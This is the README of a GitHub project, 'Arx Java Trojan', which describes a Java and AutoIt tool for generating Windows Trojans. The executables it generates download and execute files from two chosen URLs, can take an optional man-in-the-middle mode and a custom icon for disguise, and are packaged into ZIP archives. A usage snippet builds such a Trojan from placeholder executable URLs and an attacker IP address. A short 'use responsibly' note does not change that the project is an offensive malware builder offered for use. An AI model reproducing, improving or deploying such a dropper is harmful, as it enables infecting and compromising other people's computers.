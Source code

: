 # Arx Java Trojan

- This project is designed to create a Trojan software that can download and execute files from specified URLs. 
- It is developed in Java and compiled to run in a Windows environment using AutoIt.

## Features

- Ability to download and execute files from two URLs.
- Optional creation of a temporary file for man-in-the-middle (MITM) attacks.
- Icon customization feature to add a specific icon to the compiled file.
- Packaging of the generated file into a ZIP archive.

## Requirements

- Java JDK
- [Wine](https://www.winehq.org/) (to run Windows applications)
- [AutoIt](https://www.autoitscript.com/site/autoit/downloads/) and the `Aut2exe` tool

## Installation

1. **Install Requirements:**
   - Install Java JDK and Wine on your system.
   - Download and install AutoIt, noting the path to `Aut2exe`.

2. **Clone the Project:**
   ```bash
   git clone https://github.com/username/trojan-generator.git
   cd trojan-generator

3. **Prepare Necessary Files:**
   Place the appropriate icon files in the icons directory.



# Usage

You can use the Trojan class to create a Trojan. Below is an example:

`
Trojan trojan = new Trojan("http://example.com/file1.exe", "http://example.com/file2.exe", "path/to/icon.ico", "outputFile.exe", "your.ip.address");
trojan.create(true); // Set to true for MITM mode
trojan.compile(); // Compile the AutoIt code
trojan.zip("outputFile.exe"); // Create a ZIP archive
`
# Notes

Ensure that you have permission to download and execute files from the specified URLs.

Use this project responsibly and in compliance with applicable laws and regulations.

# Contribution
I would like to thank my friend Rovaniq for contributing to this project.

Feel free to contribute to the project by submitting issues or pull requests. All contributions are welcome!

For communication, you can send feedback to my Instagram account named **@yusuf.cyw**
